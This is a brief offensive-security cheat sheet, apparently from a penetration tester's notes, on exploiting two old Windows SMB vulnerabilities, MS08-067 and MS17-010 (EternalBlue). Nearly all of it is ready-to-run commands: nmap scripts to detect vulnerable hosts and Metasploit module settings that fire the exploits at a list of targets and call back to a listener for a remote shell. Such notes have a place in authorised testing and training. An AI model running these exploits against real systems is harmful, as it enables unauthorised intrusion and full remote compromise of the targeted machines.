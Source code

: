 # Low-Hanging Fruits




## net_api

**CVE-2008-4250, MS08-067**

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms08-067 10.10.13.37 -p139,445
Or
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > check
```

Exploit:

```
msf > use exploit/windows/smb/ms08_067_netapi
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```




## EternalBlue

**CVE-2017-0144, MS17-010**



### MSF

Check:

```
$ sudo nmap -n -Pn -sV --script smb-vuln-ms17-010 10.10.13.37 -p139,445
Or
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS file:smb.txt
msf > set THREADS 25
msf > run
```

Exploit with:

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```
